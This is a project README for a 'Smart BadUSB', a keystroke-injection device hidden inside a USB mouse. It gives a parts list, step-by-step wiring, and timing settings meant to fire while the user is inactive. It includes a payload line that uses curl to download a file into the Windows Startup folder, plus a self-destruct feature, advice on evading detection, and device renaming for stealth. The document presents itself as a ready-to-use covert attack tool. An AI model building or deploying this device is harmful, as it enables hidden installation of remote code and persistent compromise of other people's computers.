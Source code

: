 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a phototransistor to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Phototransistor</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Wiring How-To</h2>
<p>This section provides detailed, step-by-step instructions on how to integrate the Arduino into the mouse hardware along with a USB hub and a phototransistor. Follow these steps carefully, and refer to the wiring diagram for visual guidance.</p>

<ol>
    <li><strong>Preparing the Mouse Cable:</strong> Remove the USB connector from the mouse motherboard. Cut off the end connector, then strip the four wires (data+, data-, positive, and ground).</li>
    <li><strong>Wiring the Mouse to the USB Hub:</strong> Connect these four wires to the USB_IN line on the USB hub, labeled on the back side of the hub. Ensure the connections match the standard USB layout:
        <ul>
            <li><strong>Red:</strong> Positive wire, carries 5V direct current.</li>
            <li><strong>Black:</strong> Ground wire.</li>
            <li><strong>White:</strong> Positive data (D+).</li>
            <li><strong>Green:</strong> Negative data (D-).</li>
        </ul>
    </li>
    <li><strong>Connecting the Arduino:</strong> Solder four wires to a micro USB solderable plug and connect these wires to another set of USB pins on the USB hub. Be mindful of matching the wire connections correctly. Connect the micro USB plug to the Arduino.</li>
    <li><strong>Reconnecting the Mouse USB:</strong> Solder four additional wires to the bottom pads where the USB connector was originally attached to the mouse, and connect these wires to another set of USB pins on the USB hub. Ensure correct wiring alignment.</li>
    <li><strong>Wiring the Phototransistor:</strong> Solder the positive lead of the phototransistor (the longer one) to a 120-ohm resistor, then connect this lead to pin A2 on the Arduino. Solder the other, shorter side of the phototransistor to ground.</li>
    <li><strong>Positioning the Phototransistor:</strong> Position the photodiode so that its top faces the internal mouse LED to capture lighting changes. Adjust the <code>activeSensorValue</code> based on the brightness of the LED, which may vary between mouse models. This adjustment can be made by adding a serial debug statement to continuously print out the sensor value.</li>
    <li><strong>Securing Components:</strong> Glue the components in place atop the mouse motherboard. Depending on the mouse model, you may need to modify the plastic housing inside the mouse (using clippers or a Dremel) to accommodate the new components.</li>
</ol>

<p>Ensure all connections are secure and double-check for any potential shorts. For more clarity, see the included wiring diagram:</p>
<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/wiring.png?raw=true" alt="Wiring Diagram">

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Renaming the Arduino Device for Obfuscation</h2>
<p>To further disguise your Smart BadUSB device, you can rename its identification to something less suspicious, such as "USB Device". This process involves using the Musinou hardware library to customize the USB device name.</p>

<h3>Steps to Rename Your Arduino Device:</h3>
<ol>
    <li><p><strong>Download the Musinou Hardware Library:</strong> Download and extract the Musinou hardware configuration files from <a href="https://liveelectronics.musinou.net/code/mididevicename/">this link</a> and place them under <code>/Users/username/Documents/Arduino/hardware/</code> on your computer.</p></li>
    <li><p><strong>Modify Device Settings:</strong> Close your Arduino IDE if it's open. Navigate to <code>/Users/username/Documents/Arduino/hardware/musinou/avr/</code> and open the <code>boards.txt</code> file. Locate the lines for your Arduino model, for example:</p>
        <pre>micromusinou.build.vid=0x2340
micromusinou.build.pid=0x8030
micromusinou.build.usb_product="Arduino Micro Musinou"</pre>
        <p>Change the <code>usb_product</code> value to a generic name, in this case we'll make it "USB Device".</p>
    </li>
    <li><p><strong>Save Changes and Reopen the IDE:</strong> Save the modified <code>boards.txt</code> file. Reopen the Arduino IDE, and select "USB Device" as the board.</p></li>
    <li><p><strong>Upload Your Code:</strong> Upload your existing Smart BadUSB code to the Arduino. This process will install the code under the new device name, making it appear as a generic "USB Device" in system reports and connected devices lists.</p></li>
    <li><p><strong>Verify Device Name:</strong> Connect the Arduino to a computer. The device should now display with the new name "USB Device".</p></li>
</ol>

<p>This renaming technique adds an extra layer of stealth, making the Smart BadUSB less noticeable and suspicious when connected to a host computer.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>SmartBadUSB_Program_Arduino_Pro_Micro.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
